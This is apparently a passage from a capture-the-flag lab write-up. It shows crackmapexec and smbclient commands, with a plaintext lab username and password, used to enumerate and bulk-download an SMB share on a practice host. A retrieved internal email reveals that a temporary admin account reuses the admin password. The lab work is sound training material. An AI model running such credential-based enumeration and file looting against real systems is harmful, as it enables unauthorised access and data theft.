 
```
cme smb 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva' --shares
```

![[Pasted image 20240917012946.png]]

```
smbclient \\\\10.10.10.182\\Data -U 'r.thompson' --password 'rY4n5eva'
```

```
prompt off
recurse on
ls
mget *
```

![[Pasted image 20240917014153.png]]

```
<p>For anyone that missed yesterday�s meeting (I�m looking at
you Ben). Main points are below:</p>

<p class=MsoNormal><o:p>&nbsp;</o:p></p>

<p>-- New production network will be going live on
Wednesday so keep an eye out for any issues. </p>

<p>-- We will be using a temporary account to
perform all tasks related to the network migration and this account will be deleted at the end of
2018 once the migration is complete. This will allow us to identify actions
related to the migration in security logs etc. Username is TempAdmin (password is the same as the normal admin account password). </p>

<p>-- The winner of the �Best GPO� competition will be
announced on Friday so get your submissions in soon.</p>

<p class=MsoNormal><o:p>&nbsp;</o:p></p>

<p class=MsoNormal>Steve</p>

```

So the username who's password is same as admin is TempAdmin but but here is another user mentioned (i.e. Steve) will check in the userlist if we have that user or not.

```
s.smith
```

Let's dig the password or this user and check the remaining smb.

